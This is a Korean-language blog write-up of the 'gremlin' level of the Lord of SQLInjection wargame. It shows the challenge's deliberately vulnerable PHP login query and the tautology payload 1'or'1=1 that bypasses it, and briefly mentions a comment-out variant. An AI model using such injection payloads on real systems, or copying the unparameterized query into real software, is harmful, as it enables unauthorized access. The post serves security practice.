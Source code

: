 ```yaml
---
layout: post
title: ! "[LOS] gremlin"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - gremlin
  - write-up
---
```


![]({{ site.baseurl }}/assets/posts/los-gremlin/gremlin.png)

`query : select id from prob_gremlin where id='' and pw=''`

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
첫번째 문제 gremlin은 이런식으로 query문이 떠있고 url로 id와 pw를 집어넣으면 된다.
id에는 아무값이나 넣어도 되지만 pw는 참이 되어야 하므로
or문을 써야할 것 같다.
쿼리에서 id와 pw를 감싸는 ' 가 있기 때문에 그것까지 고려를 해서 값을 넘겨야 한다.

`?id=(아무값)&pw=1'or'1=1`

이런식으로 써줘야

`query : select id from prob_gremlin where id='mmjlee314' and pw='1'or'1=1'`

이렇게 쿼리문이 완성된다.
1 또는 1이 되므로 pw는 참이 된다.

또 다른 방법으로는 id 부분을 id='1'or'1=1' 이렇게 해주고 pw 부분을 주석처리 하는 것도 있다.
![]({{ site.baseurl }}/assets/posts/los-gremlin/gremlin_clear.png)

그렘린 클리어!
